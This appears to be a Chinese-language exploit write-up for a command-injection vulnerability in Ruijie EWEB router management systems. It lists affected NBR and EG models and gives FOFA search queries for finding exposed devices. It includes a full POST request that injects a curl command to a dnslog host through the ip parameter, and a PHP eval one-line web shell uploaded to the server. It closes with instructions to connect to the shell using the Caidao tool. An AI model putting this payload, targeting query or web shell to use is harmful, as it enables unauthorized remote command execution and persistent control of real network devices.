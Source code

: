 # 影响范围：
NBR系列:  
NBR108G-P、NBR1000G-E、NBR1300G-E、NBR1700G-E、NBR2100G-E、NBR2500D-E、NBR3000D-E、NBR6120-E、NBR6135-E、NBR6205-E、NBR6210-E、NBR6215-E、NBR800G、NBR950G、NBR1000G-C/NBR2000G-C/NBR3000G-S   
EG系列:  
RG-EG1000C、RG-EG2000F、RG-EG2000K、RG-EG2000L、RG-EG2000CE、 RG-EG2000SE、RG-EG2000GE、RG-EG2000XE、RG-EG2000UE、RG-EG3000CE、RG-EG3000SE、RG-EG3000GE、RG-EG3000ME、RG-EG3000UE、RG-EG3000XE、RG-EG2100-P、EG3210、EG3220、EG3230、EG3250
# FOFa dork：
title="锐捷网络-EWEB网管系统"  
icon_hash="-692947551"
# 漏洞复现：
登录页面：
![image](images/login.png)  
漏洞发生于文件 /guest_auth/guestIsUp.php，通过构造请求包，在ip参数处通过拼接命令进行命令执行，post包如下：    
```
POST /guest_auth/guestIsUp.php HTTP/1.1
Host: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 61


mac=1&ip=127.0.0.1|curl xxx.dnslog.cn&mac=00-00
```
![image](images/success.png)  
Dnslog成功接收到响应    
![image](images/dnslog.png)  
脚本执行后自动上传PHP一句话到服务器
```
<?php @eval($_POST[a]);?>
```
![image](images/script.png)  
使用菜刀连接即可  
![image](images/caidao.png)


